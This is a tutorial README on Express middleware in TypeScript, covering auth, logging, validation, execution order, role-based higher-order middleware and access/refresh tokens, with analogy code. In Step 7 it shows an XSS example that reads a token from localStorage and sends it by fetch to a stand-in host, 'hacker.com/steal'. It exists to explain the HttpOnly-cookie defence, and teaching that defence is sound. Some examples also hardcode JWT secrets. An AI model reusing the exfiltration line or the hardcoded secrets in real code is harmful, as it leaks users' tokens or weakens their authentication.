





# 🚀 Express Middleware & Request-Response Flow

Welcome to the documentation for **Module 9: Express Middleware**. Based on the architecture flow, here is a detailed breakdown of what middleware is and why we need it in our server architecture.

## 📌 The Request-Response Architecture Flow



---

### Step 1: Middleware (`Middleware`)
*   **What it is:** Middleware is a function that intercepts an incoming request (`req`) before it reaches the final controller. It can check data, modify the request, or block it completely before passing the control to the next stage using the `next()` function.
*   **The Problem:** Without middleware, if we want to ensure a user is authorized or log request details, we would have to write the exact same checking logic inside every single controller function. This leads to massive **Code Duplication** and messy controllers.

**Problem Code:**
```typescript
// ❌ Problem: The controller is doing too much!
// controller.ts
const getProfile = (req: Request, res: Response) => {
    // ⚠️ Repetitive checking logic that we would have to copy-paste in EVERY controller
    if(!req.headers.authorization) {
        return res.status(401).send("Unauthorized Access!");
    }

    const data = { user: "Admin", role: "SuperUser" };
    res.status(200).json(data);
};
```

*   **The Solution:** Extract the repetitive logic into a separate `Middleware` function that sits directly between `route.ts` and `controller.ts`. 

**Solution Code:**
```typescript
// ✅ Solution: Extracted Middleware Function
// middleware.ts
const authMiddleware = (req: Request, res: Response, next: NextFunction) => {
    if(!req.headers.authorization) {
        return res.status(401).send("Unauthorized Access!");
    }
    next(); // 👉 Passes control to the controller if everything is okay
};

// route.ts
// 🛠️ Middleware is injected in the middle!
router.get('/profile', authMiddleware, getProfile);

// controller.ts
// ✅ Controller is now clean and only focuses on its main job
const getProfile = (req: Request, res: Response) => {
    const data = { user: "Admin", role: "SuperUser" };
    res.status(200).json(data);
};
```

*   💡 **Real-Life Analogy:** **A Nightclub Bouncer / Security Guard**. The Client is a person trying to enter a nightclub (Controller). The Bouncer (Middleware) stands at the door checking IDs. If you don't have an ID, the bouncer turns you away (`res.send`). If you have a valid ID, the bouncer lets you inside (`next()`).

**Analogy Code:**
```typescript
class NightClub {
    // This represents the Controller
    party(person: string) {
        console.log(`🎉 ${person} is partying inside!`);
    }
}

class BouncerMiddleware {
    // This represents the Middleware
    checkIDAndLetIn(person: string, age: number, club: NightClub) {
        if (age < 18) {
            console.log(`❌ ${person}, you are underage! Entry Denied.`); // Block (res.send)
        } else {
            console.log(`✅ ID valid for ${person}. Go inside.`);
            club.party(person); // 👉 This acts like next()
        }
    }
}

// Execution Output Test
const club = new NightClub();
const bouncer = new BouncerMiddleware();

bouncer.checkIDAndLetIn("Alice", 17, club); // Entry Denied
bouncer.checkIDAndLetIn("Bob", 22, club);   // Partying inside!
```

---

### Step 2: Types of Middleware - Validation & Logger
*   **What it is:** As seen in the architecture diagram, Middleware serves specific functional roles. Two primary examples are **Validation** (like a guard checking if the incoming data is strictly correct) and **Logger** (like a record-keeper documenting every incoming request).
*   **The Problem:** 
    *   Without Validation, bad or malicious request bodies reach the controller directly, which can crash the server or create database errors.
    *   Without a Logger, if an error happens in production, you have no history or trace of who requested what and when.

**Problem Code:**
```typescript
// ❌ Problem: Controller handling validation and we have no logging
// controller.ts
const createUser = (req: Request, res: Response) => {
    // ⚠️ No Logger - We don't know who hit this API!
    
    // ⚠️ Validation logic mixed inside the controller
    if (!req.body.name || !req.body.password) {
        return res.status(400).send("Bad Request: Missing Name or Password");
    }

    // Actual core logic
    res.status(201).send("User created successfully!");
};
```

*   **The Solution:** Create specific middlewares. One for Logging requests and another for Validating request properties. These can be executed one after another chronologically in the route!

**Solution Code:**
```typescript
// ✅ Solution: Isolated Middlewares performing single duties

// 1. Logger Middleware
const loggerMiddleware = (req: Request, res: Response, next: NextFunction) => {
    console.log(`📝 [LOGGER]: ${req.method} request made to ${req.url} at ${new Date().toISOString()}`);
    next();
};

// 2. Validation Middleware
const validationMiddleware = (req: Request, res: Response, next: NextFunction) => {
    if (!req.body.name || !req.body.password) {
        return res.status(400).send("❌ [VALIDATION FAILED]: Missing Name or Password");
    }
    next(); // 👉 Data is valid, proceed
};

// 🛠️ route.ts: Chaining middlewares! 
// First logs the request, then validates the data, finally hits the controller.
router.post('/users', loggerMiddleware, validationMiddleware, createUser);

// ✅ controller.ts: Controller is now completely pure
const createUser = (req: Request, res: Response) => {
    res.status(201).send("User created successfully!");
};
```

*   💡 **Real-Life Analogy:** **Airport Security System**. 
    *   **Logger (The Check-in Record):** When you arrive, your entry is recorded automatically in the system log.
    *   **Validation (The Security Guard):** The guard checks if you have a valid ticket. If you don't, you are kicked out. If you do, you proceed to board the flight (the Controller).

**Analogy Code:**
```typescript
class FlightController {
    board(passenger: string) {
        console.log(`✈️ Success: ${passenger} boarded the flight!`);
    }
}

class AirportMiddlewares {
    // 📜 Logger Middleware (Scroll Icon)
    static checkInLogger(passenger: string, next: Function) {
        console.log(`📝 Log: ${passenger} entered the terminal.`);
        next();
    }

    // 💂 Validation Middleware (Soldier Icon)
    static securityValidation(passenger: string, hasTicket: boolean, next: Function) {
        if (!hasTicket) {
            console.log(`❌ Validation Error: ${passenger} has no ticket. Kick them out!`);
        } else {
            console.log(`✅ Validation Passed: ${passenger} is clear.`);
            next();
        }
    }
}

// simulate the Flow
const flight = new FlightController();

// AirportMiddlewares chaining sequentially
AirportMiddlewares.checkInLogger("Anis", () => {
    AirportMiddlewares.securityValidation("Anis", true, () => {
        flight.board("Anis"); // 👉 Reaches target because everything passed!
    });
});
```

---

### Step 3: Global Middlewares (Inside `app.ts`)

*   **What it is:** A global middleware is a middleware that runs for **EVERY SINGLE** request that hits our application, regardless of the route. It uses `app.use()`.
*   **The Problem:** If we have 50 different routes (e.g., `/users`, `/profile`, `/auth`) and we want to log the details of EVERY request or parse the body for EVERY request, writing `loggerMiddleware` inside every single `router.get()` / `router.post()` is exhausting and creates massive code duplication.

**Problem Code:**
```typescript
// ❌ Problem: Applying Logger to every single route individually
router.post('/users', loggerMiddleware, createUser);
router.get('/users', loggerMiddleware, getUsers);
router.get('/profile', loggerMiddleware, getProfile);
// Imagine doing this for 100 routes... 😫
```

*   **The Solution:** Use `app.use()` in the main `app.ts` file. By putting the middleware here, **Express** automatically injects it in front of all routes! 

**Solution Code:**
```typescript
// ✅ Solution: Global Logger Middleware using app.use()
// app.ts

// Any request to the server passes through this First!
app.use((req, res, next) => {
  console.log("📝 Global Logger -> Method:", req.method, "URL:", req.url, "Time:", Date.now());
  next(); // 👉 Don't forget next(), otherwise the request hangs here!
});

// Now, no need to add loggers inside these routes! They get logged automatically! 🎉
app.use('/api/users', userRoute);
app.use("/api/profile", profileRoute);
```

*   💡 **Real-Life Analogy:** **Shopping Mall Entrance Security**.
    *   If you put a security guard at the door of every single shop inside a mall (Zara, Apple, Food Court), it's expensive and repetitive (Route-Specific Middleware).
    *   Instead, you put a master security gate at the **Main Entrance of the Mall** (Global Middleware via `app.use()`). Everyone entering MUST pass through it, no matter which shop they are going to!

**Analogy Code:**
```typescript
class ShoppingMall {
    // 🚪 Global Mall Entrance Scanner
    mainEntranceSecurity(person: string, next: Function) {
        console.log(`🔍 Scanner Beep! Recording entry for: ${person} at Mall Main Gate.`);
        next();
    }

    visitZara(person: string) {
        console.log(`🛍️ ${person} is now shopping at Zara.`);
    }
}

const bashundharaCity = new ShoppingMall();

// Simulation: The person hits the Global Security First
bashundharaCity.mainEntranceSecurity("John", () => {
    // Then they go to the specific shop
    bashundharaCity.visitZara("John"); 
});
// Output: 
// 🔍 Scanner Beep! Recording entry for: John at Mall Main Gate.
// 🛍️ John is now shopping at Zara.
```

---

### Step 4: Execution Order (Top-to-Bottom Rule)



*   **What it is:** Express.js reads and executes code strictly from **Top to Bottom**. If a request matches a route and sends a response (e.g., `res.json()`), the cycle ends immediately. Any middleware written below that route will be completely ignored.
*   **The Problem:** In our `app.ts`, the base route `app.get("/")` was placed *before* our global Logger middleware. Because the route sent the "Hello World" response and didn't call `next()`, the execution stopped there. The logger never got the chance to run for the `/` route!

**Problem Code:**
```typescript
// ❌ Problem: Route is declared before the Middleware
const app: Application = express();

// The request matching "/" stops here!
app.get("/", (req, res) => {
  res.status(200).json({ message: "Hello World!" }); 
}); 

// ⚠️ This logger will NEVER run if someone visits "/" 
app.use((req, res, next) => {
  console.log("Method:", req.method, "URL:", req.url);
  next();
});
```

*   **The Solution:** Always place your Global Middlewares **above** the routes they are supposed to intercept. By moving the `app.use()` logger to the top, it catches the request first, logs it, and uses `next()` to pass it down to `app.get("/")`.

**Solution Code:**
```typescript
// ✅ Solution: Middleware is placed Topmost
const app: Application = express();

app.use(express.json()); // Middleware to parse JSON bodies
app.use(express.urlencoded({ extended: true })); // Middleware to parse URL-encoded bodies

// implement middleware for routes 
app.use((req, res, next) => {
  console.log("Method:", req.method, "URL:", req.url, "Time:", Date.now());
  next(); // 👉 Passes control down
});

// Now the logger successfully runs before hitting this route!
app.get("/", (req, res) => {
  res.status(200).json({ message: "Hello World!" });
});
```

*   💡 **Real-Life Analogy:** **A Highway Toll Plaza**. If you build a toll booth (Middleware) *after* the highway exit (Route), cars will simply leave the highway and never pay the toll. To ensure everyone pays, the toll booth MUST be placed **before** the exits.

**Analogy Code:**
```typescript
class Highway {
    payToll(car: string, next: Function) {
        console.log(`💰 Toll paid by ${car}.`);
        next();
    }

    takeExit(car: string) {
        console.log(`🚗 ${car} has left the highway.`);
    }
}

const road = new Highway();

// ❌ Wrong Order: Exit first, Toll later (Toll is never paid)
road.takeExit("Red Car");

console.log("--- Fixing the Order ---");

// ✅ Correct Order: Toll first, Exit later
road.payToll("Blue Car", () => {
    road.takeExit("Blue Car");
});
```

---

### Step 5: Higher-Order Functions (HOF) in Middleware



*   **What it is:** A Higher-Order Function (HOF) is simply a function that returns another function. In Express, we use it to pass customized data (like user "Roles") into a middleware.
*   **The Problem:** The standard structure of Express middleware is strictly `(req, res, next)`. Express will **not** let us pass custom arguments directly (like specifying which roles are allowed). If we want an admin route to check for "admin", and a user route to check for "user", a simple generic middleware function falls short.

**Problem Code:**
```typescript
// ❌ Problem: Standard middleware cannot accept our custom arguments
const auth = (req: Request, res: Response, next: NextFunction) => {
    // ⚠️ We want to check roles here, but how do we receive different roles dynamically?
    // Express strictly only gives us 'req', 'res', and 'next'!
    next();
}

// 😫 We CANNOT execute the middleware like this, it breaks the Express signature!
router.post('/create', auth('admin'), controller);
```

*   **The Solution:** We create an **Outer wrapper function** that accepts our custom arguments. This outer function then **Returns** the standard `(req, res, next)` inner function for Express to use. Thanks to JavaScript **Closure**, the inner function remembers the custom data passed to the outer function!

**Solution Code:**
```typescript
import type { NextFunction, Request, Response } from "express";

// ✅ Solution: Higher Order Function (A function returning a function)

// 1. The outer function takes our custom arguments
const auth = (...requiredRoles: string[]) => {
    
    // 2. It returns the exact standard middleware format that Express expects
    return async (req: Request, res: Response, next: NextFunction) => {
        
        // 3. Thanks to 'closure', this inner function remembers 'requiredRoles'
        console.log("Required roles for this route:", requiredRoles);
        
        // Proceed to next stage
        next();
  };
};

export default auth;

// 🛠️ Usage in route.ts:
// Now we can execute the outer function and pass dynamic arguments!
router.post('/delete', auth('admin', 'super-admin'), deleteUser);
router.get('/profile', auth('user', 'admin'), getProfile);
```

*   💡 **Real-Life Analogy:** **A Custom Security Guard Agency**. You can't just hire a generic guard for every event. You go to the agency (Outer Function), tell them your rule ("I need a guard who strictly allows VIPs"), and the agency provides (Returns) a specific Guard (Inner Function) who evaluates guests based strictly on your rule.

**Analogy Code:**
```typescript
class SecurityAgency {
    // 🏢 Outer Function: The Agency setup taking custom rules
    static hireGuard(requiredTier: string) {
        
        // 💂 Inner Function: The actual working guard given to the event
        return function checkGuest(guestName: string, guestTier: string) {
            if (guestTier !== requiredTier) {
                return `❌ ${guestName} blocked! Needs ${requiredTier} access.`;
            }
            return `✅ ${guestName} allowed!`;
        }
    }
}

// We execute the outer function to get a specialized guard!
const vipGuard = SecurityAgency.hireGuard("VIP");
const staffGuard = SecurityAgency.hireGuard("STAFF");

console.log(vipGuard("Anis", "Normal"));  // ❌ Anis blocked! Needs VIP access.
console.log(vipGuard("Muntasir", "VIP")); // ✅ Muntasir allowed!
```

---

### Step 6: Access Token vs Refresh Token Architecture



*   **What it is:** In an authentication system, an **Access Token** is a temporary key used to access protected routes. A **Refresh Token** is a longer-lasting key (recommended to be stored securely in browser cookies) that silently requests a new Access Token behind the scenes when the old one expires.
*   **The Problem:** If we give a user a single Access Token that lasts for 30 days, it is critically dangerous! If a hacker steals it, they have 30 days to ruin the account. But if we make the Access Token last only 10 minutes for security, the user will be forced to manually type their email and password every 10 minutes when it expires. This creates a terrible user experience.

**Problem Code:**
```typescript
// ❌ Problem: Single Long-Lived Token (Extremely Insecure!)
const loginUser = (req: Request, res: Response) => {
    // ⚠️ Giving an access token that lasts 30 days. If stolen, game over!
    const accessToken = jwt.sign({ id: user.id }, "secret", { expiresIn: '30d' });
    
    res.status(200).json({ token: accessToken });
};
```

*   **The Solution:** We use a **Dual-Token System**, as shown in the picture. We issue an Access Token that dies very quickly (e.g., 10 minutes) for safety. To prevent the user from re-logging in repeatedly, we also issue a **Refresh Token** that lives longer (e.g., 30 days). We store this Refresh Token in an `HttpOnly Cookie` (as recommended in the architecture) so hackers can't easily steal it using JavaScript.

**Solution Code:**
```typescript
// ✅ Solution: Dual-Token System 
const loginUser = (req: Request, res: Response) => {
    // 1. Short-lived Access Token (e.g., 10 minutes)
    const accessToken = jwt.sign({ id: user.id }, "sec_key", { expiresIn: '10m' });
    
    // 2. Long-lived Refresh Token (e.g., 30 days)
    const refreshToken = jwt.sign({ id: user.id }, "ref_key", { expiresIn: '30d' });

    // 🍪 3. Recommended: Store Refresh Token in an HttpOnly Cookie for security
    res.cookie('refreshToken', refreshToken, {
        httpOnly: true, // Prevents JavaScript/XSS attacks from stealing the token
        secure: true,
    });

    // 4. Send only the short-lived access token to the frontend client
    res.status(200).json({ accessToken });
};

// ♻️ The Route that gives a NEW Access token using the Cookie
const getNewAccessToken = (req: Request, res: Response) => {
    // Grab the refresh token directly from the isolated cookie!
    const refreshToken = req.cookies.refreshToken;
    // ... logic to verify it, and generate a new Access Token silently
};
```

*   💡 **Real-Life Analogy:** **Hotel Room Keycard vs Identity Proof**. 
    *   **Access Token (The Room Keycard):** When you stay at a hotel, they give you a keycard. For security, the keycard is programmed to expire every 24 hours. (If you drop it, a stranger can only use it briefly).
    *   **Refresh Token (Your Passport/Booking ID):** When your keycard stops working the next day, you don't book the room again! You go to the reception, show your Passport (Refresh Token) secretly, and they instantly give you a brand-new freshly activated room keycard (New Access Token).

**Analogy Code:**
```typescript
class HotelSystem {
    // 💳 Access Token functionality
    openDoor(keycardExpireDate: number, roomNumber: number) {
        if (Date.now() > keycardExpireDate) {
            console.log(`❌ Keycard Expired! Cannot enter Room ${roomNumber}.`);
            return false;
        }
        console.log(`✅ Welcome to Room ${roomNumber}!`);
        return true;
    }

    // 🛂 Refresh Token functionality
    renewKeycard(passport: string, databaseRecord: string) {
        if (passport === databaseRecord) {
            console.log(`♻️ Identity verified using Passport. Issuing a new 24-hour Keycard!`);
            return Date.now() + 24 * 60 * 60 * 1000; // New expiry!
        }
    }
}

// Execution Scenario
const hilton = new HotelSystem();
let myKeycardExpiry = Date.now() - 1000; // ⚠️ Oh no, it expired 1 second ago!

// 1. Try to open door (Fails - Short expire time just like in the picture)
hilton.openDoor(myKeycardExpiry, 101);

// 2. Secretly use Passport (Refresh Token) to get a new Keycard
console.log("➡️ Going to reception to use Refresh Token...");
myKeycardExpiry = hilton.renewKeycard("RealPassport", "RealPassport");

// 3. Try again with the New Keycard (Success!)
hilton.openDoor(myKeycardExpiry, 101);
```

---

### Step 7: Security Lifecycle & The Hacker Scenario



*   **What it is:** The visual representation of how the Dual-Token system actively defends your application against a Man-in-the-Middle (Hacker) attack, completing the full token cycle.
*   **The Problem:** Hackers can use script injections (XSS) or intercept network traffic to easily steal an `Access Token` when a user makes a request. If the token never expires, the hacker owns the account permanently.

**Problem Code:**
```typescript
// ❌ Problem: Tokens stored insecurely in LocalStorage are easy to steal!
// Frontend Code (React/Vue)
localStorage.setItem('accessToken', token);

// 🥷 Hacker executes this script on your site and steals it!
const stolenToken = localStorage.getItem('accessToken');
fetch('https://hacker.com/steal', { method: 'POST', body: stolenToken });
```

*   **The Solution:** The architecture enforces two immense security rules:
    1.  **Short Access Token:** Even if the hacker runs the steal script, the token will quickly hit its "Short Expire Time" (e.g., 5 mins). By the time the hacker tries to use it, the Server replies with **"Access Denied"**.
    2.  **HttpOnly Refresh Token:** The Refresh Token, which is the "master key" to generate new tokens, is locked inside an `HttpOnly` Browser Cookie. JavaScript cannot read this cookie! The hacker's script returns `undefined`.

**Solution Code:**
```typescript
// ✅ Solution: Hacker is blocked at both ends!

// 1. Server sends Refresh Token strictly via HttpOnly Cookie
res.cookie('refreshToken', refreshToken, {
    httpOnly: true, // 🛡️ JavaScript cannot access this! Hacker scripts fail!
    secure: true,   // Only sent over HTTPS
    maxAge: 30 * 24 * 60 * 60 * 1000 // 30 days
});

// 2. Client uses it to get a new short-lived token
app.post('/refresh-token', (req, res) => {
    //  брауজার automatically attaches the invisible cookie
    const token = req.cookies.refreshToken; 
    
    if(!token) return res.status(403).send("No refresh token found");

    // Re-issue a NEW 5-minute token
    const newAccessToken = jwt.sign({ id: user.id }, "secret", { expiresIn: '5m' });
    res.json({ accessToken: newAccessToken });
});
```

*   💡 **Real-Life Analogy:** **A Bank Vault Time Lock**. 
    *   **The Hacker Situation:** A thief steals your vault's combination code (Access Token). 
    *   **The Defense:** The vault randomly changes its combination every 5 minutes (Short Expire Time). By the time the thief drives to the bank, the combination is useless. Only YOU have the master retinal scan (HttpOnly Refresh Token) to ask the Bank Manager for the new 5-minute combination. The thief cannot steal your eye.

**Analogy Code:**
```typescript
class BankVault {
    private combinationCode: string;

    constructor() {
        this.combinationCode = "1234";
        // ⏱️ Auto-changes combination very quickly
        setTimeout(() => {
            this.combinationCode = "EXP_5678";
            console.log("🔄 Vault combination rotated for security.");
        }, 5000); 
    }

    openVault(code: string, user: string) {
        if (code !== this.combinationCode) {
            console.log(`❌ Access Denied for ${user}. Invalid or Expired Code!`);
        } else {
            console.log(`✅ Vault successfully opened by ${user}.`);
        }
    }
}

const dbbl = new BankVault();
const myCode = "1234"; // Hacker steals this!

// 🥷 Hacker tries 6 seconds later...
setTimeout(() => {
    console.log("🥷 Hacker attempting to sneak in...");
    dbbl.openVault(myCode, "Hacker"); // ❌ Fails! Automatically protected.
}, 6000);
```
